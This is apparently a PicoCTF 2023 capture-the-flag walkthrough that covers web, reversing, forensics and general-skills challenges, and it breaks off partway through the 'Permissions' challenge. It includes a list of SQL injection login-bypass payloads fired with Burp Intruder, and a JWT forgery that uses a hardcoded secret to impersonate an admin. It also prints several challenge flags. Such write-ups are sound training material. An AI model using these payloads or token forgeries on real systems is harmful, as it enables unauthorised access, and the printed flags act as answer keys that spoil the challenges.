









- [PicoCTF 2023 Walkthrough](#picoctf-2023-walkthrough)
  - [Web Exploitation](#web-exploitation)
    - [More SQLi](#more-sqli)
    - [Java Code Analysis!?!](#java-code-analysis)
  - [Reverse Engineering](#reverse-engineering)
    - [Virtual Machine 0](#virtual-machine-0)
  - [Forensics](#forensics)
    - [FindAndOpen](#findandopen)
    - [MSB](#msb)
  - [General Skills](#general-skills)
    - [chrono](#chrono)
    - [Permissions](#permissions)
    - [Special](#special)
    - [Specialer](#specialer)
  - [Binary Exploitation](#binary-exploitation)
    - [babygame01](#babygame01)


# PicoCTF 2023 Walkthrough

## Web Exploitation

### More SQLi

Description: `Can you find the flag on this website. Additional details will be available after launching your challenge instance.`

Launching the instance, it brings you to a simple login webpage with a username and a password.

Open Burp, capture the HTTP request.

```
POST / HTTP/1.1
Host: saturn.picoctf.net:64985
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://saturn.picoctf.net:64985
DNT: 1
Connection: close
Referer: http://saturn.picoctf.net:64985/
Cookie: PHPSESSID=r887saees23b2acc82d70h6er7
Upgrade-Insecure-Requests: 1

username=admin&password=test
```

Send to Intruder and mark the password value as the insertion point for the payloads.

Use the following potential sqli payloads:

```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
or 1=1 -- -
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

Run Intruder, look at the status code on the responses, there's a handful that resulted in a 302.



View the HTTP resposne for one of these requests, the flag is located in the response.



### Java Code Analysis!?!

Description: `BookShelf Pico, my premium online book-reading service. I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!Additional details will be available after launching your challenge instance.`

Download and unzip the source code files.

Navigate to the `controllers` folder within the source code, which can be found at: `/web/src/main/java/io/github/nandandesai/pico/controllers`

There are two files which you can glean endpoints from: `BookController.java` and `UserController.java`. Two of the endpoints that will be required to solve this are: `/books/pdf/{id}` and `/users/{id}`
There's also one other piece of information from the source code which we will need which can be found at: `/web/src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java`

This file discloses that that random string being generated is "1234"

```java
package io.github.nandandesai.pico.security;

import io.github.nandandesai.pico.configs.UserDataPaths;
import io.github.nandandesai.pico.utils.FileOperation;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.io.IOException;
import java.nio.charset.Charset;

@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }
[TRUNCATED]
```

Proxy your web browser through Burp. Create a user on the signup page, then start browsing the website. Look at the proxy history and you'll find that a JWT is being passed in HTTP requests via the `Authorization` header. 



Take the JWT and decode in using a tool like `https://jwt.io/`. We need to find the user id of the Admin. That we can alter the JWT and sign it with "1234" to get a privleged JWT to use in further HTTP requests.



By using the `/base/users/{id}` endpoint, we can use trial and error, and we find that the admin user is using id 2.

```
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: application/json
Date: Thu, 23 Mar 2023 17:12:42 GMT
Connection: close
Content-Length: 131

{"type":"SUCCESS","payload":{"id":2,"email":"admin","fullName":"Admin","lastLogin":"2023-03-23T17:04:31.659469349","role":"Admin"}}
```

Using this information, create a new JWT that will be used to impersonate the Admin user.



Take this newly created JWT and use it as the value for the `authorization` header in a GET request to `/base/books/pdf/5`. This endpoint responds with the PDF content of the flag book. For the sake of simplicity, I won't show the steps to enumerate the id for the flag book, you can find this information out by looking at the proxy history and poking around. In the response to this request, the flag can be found.



## Reverse Engineering

### Virtual Machine 0

Description: `Can you crack this black box? We grabbed this design doc from enemy servers: Download. We know that the rotation of the red axle is input and the rotation of the blue axle is output. The following input gives the flag as output: Download.`

Inspect the contents of `input.txt`

```bash
$ cat input.txt 
39722847074734820757600524178581224432297292490103996089444214757432940313          
```

Inspect the `.dae` file by importing into the 3D viewer tool at: `https://3dviewer.net/`. Reveal the gears that are within the black box by hiding some of the Lego blocks.



Figure out the gear ratio by using the following site: `http://gears.sariel.pl/`



Becuase the number in `input.txt` is the number of rotations, times that by 5 to get the output.

```bash
$ python3 -c 'print(39722847074734820757600524178581224432297292490103996089444214757432940313 * 5)'
198614235373674103788002620892906122161486462450519980447221073787164701565
```

The number is encoded, so first transform it into `hex`.

```bash
$ python3 -c 'print(hex(198614235373674103788002620892906122161486462450519980447221073787164701565))'
0x7069636f4354467b67333472355f30665f6d3072335f64303563366436337d
```

Now decode this hex number into ASCII to obtain the flag.

```bash
$ python3 -c 'print(bytes.fromhex("7069636f4354467b67333472355f30665f6d3072335f64303563366436337d").decode("ASCII"))'
picoCTF{g34r5_0f_m0r3_d05c6d63}
```

## Forensics

### FindAndOpen

Description: `Someone might have hidden the password in the trace file. Find the key to unlock this file. This tracefile might be good to analyze.`

Download the `dump.pcap` and `flag.zip`. Trying to `unzip` the `.zip` file, it requests a password, which we don't have.

Run `strings` on the pcap file to see if there's any secrets

```bash
$ strings dump.pcap
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
Flying on Ethernet secret: Is this the flag
_googlecast
_tcp
local
_googlecast
_tcp
local
_googlecast
_tcp
local
_googlecast
_tcp
local
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
_googlecast
_tcp
local
_googlecast
_tcp
local
_googlecast
_tcp
local
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
.+Chromecast-18e2a8da30459b730aec93a71af19988
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
I$18e2a8da-3045-9b73-0aec-93a71af19988
_googlecast
_tcp
local
.+Chromecast-18e2a8da30459b730aec93a71af19988
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
I$18e2a8da-3045-9b73-0aec-93a71af19988
_googlecast
_tcp
local
.+Chromecast-18e2a8da30459b730aec93a71af19988
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
I$18e2a8da-3045-9b73-0aec-93a71af19988
_googlecast
_tcp
local
.+Chromecast-18e2a8da30459b730aec93a71af19988
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
I$18e2a8da-3045-9b73-0aec-93a71af19988
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
ScTo
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
iBwaWNvQ1RGe1Could the flag have been splitted?
AABBHHPJGTFRLKVGhpcyBpcyB0aGUgc2VjcmV0OiBwaWNvQ1RGe1IzNERJTkdfTE9LZF8=
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS
PBwaWUvQ1RGe1Maybe try checking the other file
PBwaWUvQ1RGe1Maybe try checking the other file
PBwaWUvQ1RGe1Maybe try checking the other file
PBwaWUvQ1RGe1Maybe try checking the other file
PBwaWUvQ1RGe1Maybe try checking the other file
PBwaWUvQ1RGe1Maybe try checking the other file
PBwaWUvQ1RGe1Maybe try checking the other file
PBwaWUvQ1RGe1Maybe try checking the other file
_googlecast
_tcp
local
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
.+Chromecast-18e2a8da30459b730aec93a71af19988
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
I$18e2a8da-3045-9b73-0aec-93a71af19988
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
_googlecast
_tcp
local
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
.+Chromecast-18e2a8da30459b730aec93a71af19988
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
I$18e2a8da-3045-9b73-0aec-93a71af19988
+Chromecast-18e2a8da30459b730aec93a71af19988
_googlecast
_tcp
local
#id=18e2a8da30459b730aec93a71af19988#cd=EB3B62CAFB4F51F0114CFB58C4FE2C2F
rm=B8B7BA5A0CEB76E5
ve=05
md=Chromecast
ic=/setup/icon.png
fn=Living Room TV       ca=465413
st=0
bs=FA8FCA54567B
nf=2
```

Among the noise, there's a hint that the flag could be split up. Notice that there seems to be a few strings that could be base64. Using the python script below, it's possible to generate every possible combination of the four questionable strings found and base64 decode them to see what we get.

```python
#!/usr/python3

import base64

A ='PBwaWUvQ1RGe1'
B ='PBwaWUvQ1RGesabababkjaASKBKSBACVVAVSDDSSSSDSKJBJS'
C ='AABBHHPJGTFRLKVGhpcyBpcyB0aGUgc2VjcmV0OiBwaWNvQ1RGe1IzNERJTkdfTE9LZF8='
D ='iBwaWNvQ1RGe1'

combinations = [
	A+B+C+D, A+B+D+C, A+C+B+D, A+C+D+B, A+D+B+C, A+D+C+B,
    B+A+C+D, B+A+D+C, B+C+A+D, B+C+D+A, B+D+A+C, B+D+C+A,
    C+A+B+D, C+A+D+B, C+B+A+D, C+B+D+A, C+D+A+B, C+D+B+A,
    D+A+B+C, D+A+C+B, D+B+A+C, D+B+C+A, D+C+A+B, D+C+B+A
]

def decode(combinations):
	for combo in combinations:
		print(str(base64.b64decode(combo)))
		
decode(combinations)
```

One of the lines from the output is: ```b'<\x1c\x1aYK\xd0\xd5\x11\x9e\xb1\xa6\xdam\xa6\xe4\x8d\xa0\x12(\x12\x92\x04\x00\x95T\x05R\x0c4\x92I \xd2(\x90IJ picoCTF{P\x00\x04\x11\xc7<\x9
1\x93\x15\x12\xcaThis is the secret: picoCTF{R34DING_LOKd_'```

`unzip` the `flag.zip` and enter `picoCTF{R34DING_LOKd_` as the password, this successfully unzips the file `flag` which contains the full flag.

```bash
┌──(parallels㉿kali-linux-2022-2)-[~/Desktop/picoctf/forensics]
└─$ unzip flag.zip          
Archive:  flag.zip
[flag.zip] flag password: 
replace flag? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
 extracting: flag                    
                                                                                                                                             
┌──(parallels㉿kali-linux-2022-2)-[~/Desktop/picoctf/forensics]
└─$ cat flag
picoCTF{R34DING_LOKd_fil56_succ3ss_494c4f32}
```

### MSB

Description: `This image passes LSB statistical analysis, but we can't help but think there must be something to the visual artifacts present in this image... Download the image here`

Download `Ninja-and-Prince-Genji-Ukiyoe-Utagawa-Kunisada.flag.png`, the hint for the challenge is in the name "MSB". Using the tool listed below, we can extract the Most Significant Bit.

Tool: `https://github.com/Pulho/sigBits`

`python3 sigBits/sigBits.py -t=msb Ninja-and-Prince-Genji-Ukiyoe-Utagawa-Kunisada.flag.png`

Runnning this tool generates a output file, `outputSB.txt`, which contains a lot of text and symbols which we need to parse. We can do this with regex to find the flag.

```bash
$ cat outputSB.txt | grep -Pio "pico[A-Z\{_\-0-9\}]+"
picoCTF{15_y0ur_que57_qu1x071c_0r_h3r01c_3a219174}
```

## General Skills

### chrono

Description: `How to automate tasks to run at intervals on linux servers?`

Check if there's anything in the `crontab` file

```bash
picoplayer@challenge:/etc$ cat crontab 
# picoCTF{Sch3DUL7NG_T45K3_L1NUX_5b7059d0}
```

### Permissions

Description: `Can you read files in the root file?`

Check what `sudo` permissions the user has available

```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
